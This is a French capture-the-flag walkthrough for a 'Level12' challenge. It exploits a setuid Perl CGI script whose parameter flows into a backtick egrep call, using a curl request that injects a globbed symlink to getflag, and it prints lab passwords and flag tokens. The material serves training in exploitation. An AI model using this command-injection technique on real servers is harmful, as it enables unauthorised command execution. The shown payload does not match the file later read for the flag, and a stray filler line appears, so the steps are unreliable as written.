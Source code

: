 # Level12

> login:password -> *`level12:fa6v5ateaw21peobuub8ipe6s`*
```
:~$ su level12
Password:fa6v5ateaw21peobuub8ipe6s
```
---

```
:~$ pwd
/home/user/level12
```

```
:~$ ls -la
...
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
...
```

Le Home contient un script perl :

```
#!/usr/bin/env perl
# localhost:4646 (ici indique qu'il écoute sur le port :4646)
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; (ici transforme le lowercase en uppercase)
  $xx =~ s/\s.*//; (ici supprime tout ce qui va suivre un espace)
  @output = `egrep "^$xx" /tmp/xd 2>&1`; (ici il execute le pametre en effectuant une substitution avant. C'est une faille)
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}
(ici print "." ou ".." en fonction du nombre de paramétres)

n(t(param("x"), param("y"))); (ici prends 2 paramétres x et y)
```

On remarque que le script est un serveur qui écoute sur le port `:4646` et utilise un `egrep`. On peux aussi voir que le script prends 2 paramétres `x` et `y`, et que le fichier passé  en `x` doit forcément être en masjuscule, car une regex passe cet argument en uppercase, tandis que l'argument `y` n'est juste pas utilisé.\
Je vais de ce fait créer un lien symbolique avec la commande getflag, en prenant soin de l'écrire en masjuscule :

```
:~$ ln -s /bin/getflag /tmp/GETFLAG

:~$ /*/GETFLAG (ici j'utilise une `*` pour éviter le passage du caractère en uppercase)
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```

On peux voir que le lien permet bien d'exécuter la commande. Maintenant il faut faire en sorte qu'il soit lancé par le script pour en récupérer le résultat.







AAAAAAAAAAA

```
:~$ curl 'localhost:4646/?x=`/*/GETFLAG`'

:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

```



Le flag nous permet de se connecter au level13
`level13:g1qKMiRpXf53AWhDaU7FEkczr`